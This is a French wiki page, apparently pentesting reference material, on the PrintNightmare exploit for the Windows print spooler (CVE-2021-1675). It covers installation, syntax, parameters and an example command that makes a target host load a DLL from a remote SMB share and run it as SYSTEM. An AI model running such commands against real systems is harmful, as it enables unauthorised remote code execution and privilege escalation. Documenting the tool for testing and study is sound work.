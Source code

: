 ```yaml
---
title: PrintNightmare
description: Permet à n'importe quel utilisateur sans le privilège SeLoadDriverPrivilege, d'ajouter des drivers d'impression à un système local ou distant, et par conséquent d'exécuter du code en tant que NT AUTHORITY\SYSTEM.
published: true
date: 2024-10-25T20:39:27.858Z
tags: outil, windows, indépendant
editor: markdown
dateCreated: 2024-08-23T14:57:38.073Z
---
```


# Introduction

PrintNightmare est un exploit qui utilise une faille dans la fonction RpcAddPrinterDriver, qui permet à n'importe quel utilisateur sans le privilège SeLoadDriverPrivilege, d'ajouter des drivers d'impression à un système local ou distant, et par conséquent d'exécuter du code en tant que NT AUTHORITY\SYSTEM.

> La fonction RpcAddPrinterDriver permet aux utilisateurs avec le privilège SeLoadDriverPrivilege d'ajouter des drivers sur des spouleurs distants.
> {.is-info}

> PrintNightmare est disponible au téléchargement [ici](https://github.com/cube0x0/CVE-2021-1675)
> {.is-info}

> Le canal nommé \pipe\spoolss est utilisé pour la communication.
> {.is-info}

# Installation

Cet exploit nécéssite une version de Impacket modifiée.

`pip3 uninstall impacket`
`git clone https://github.com/cube0x0/impacket`
`cd impacket`
`python3 ./setup.py install`

# Syntaxe

`CVE-2021-1675.py [[domaine/]utilisateur[:mot de passe]@]<nom ou adresse de la cible> <chemin du fichier DLL> [paramètres]`

# Paramètres

| Paramètre                    | Description                                                                       |
| ---------------------------- | --------------------------------------------------------------------------------- | -------------------------- |
| `-h                          | --help`                                                                           | Affiche le message d'aide. |
| `-hashes <LMHASH>:<NTHASH> ` | Spécifie les hashes NTLM pour l'authentification.                                 |
| `-target-ip [adresse]`       | Spécifie l'adresse de la cible (utile si le nom Netbios est utilisé comme cible). |
| `-port <port> `              | Spécifie le port de destination pour la connexion au serveur SMB.                 |

# Exemples

Ajoute le driver situé sur le partage SMB "\\192.168.1.2\smb\addCube.dll" sur le système 192.168.1.1 avec comme utilisateur domain.local/paul et mot de passe "t00r".
`CVE-2021-1675.py domain.local/paul:t00r@192.168.1.1 '\\192.168.1.2\smb\addCube.dll'`

# Voir aussi

Fonction RpcAddPrinterDriver:
https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/f23a7519-1c77-4069-9ace-a6d8eae47c22

Emplacement et informations concernant le canal nommé \pipe\spoolss:
https://learn.microsoft.com/fr-fr/openspecs/windows_protocols/ms-rprn/fdf1138a-f6b9-4b00-ada6-1fbb6097d683
